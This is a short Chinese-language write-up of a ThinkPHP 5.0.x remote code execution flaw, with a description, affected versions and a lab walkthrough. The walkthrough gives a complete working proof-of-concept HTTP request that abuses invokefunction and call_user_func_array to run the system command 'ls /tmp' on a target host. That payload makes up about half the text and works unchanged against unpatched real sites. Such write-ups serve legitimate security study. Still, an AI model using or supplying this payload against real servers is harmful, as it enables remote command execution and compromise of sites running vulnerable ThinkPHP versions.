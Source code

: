 
#  thinkphp_5.0.21 命令执行 by [hu4wufu](https://github.com/hu4wufu)

## 漏洞描述

Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。

## 影响版本

ThinkPHP 5.x < ThinkPHP 5.1.31<= ThinkPHP 5.0.23

## 利用流程

1、打开靶场、抓包分析，下面是poc，拿到flag成功。

![image-20200821155114277](.\image-20200821155114277.png)
```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 118.193.36.37:28446
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect=1
Upgrade-Insecure-Requests: 1

```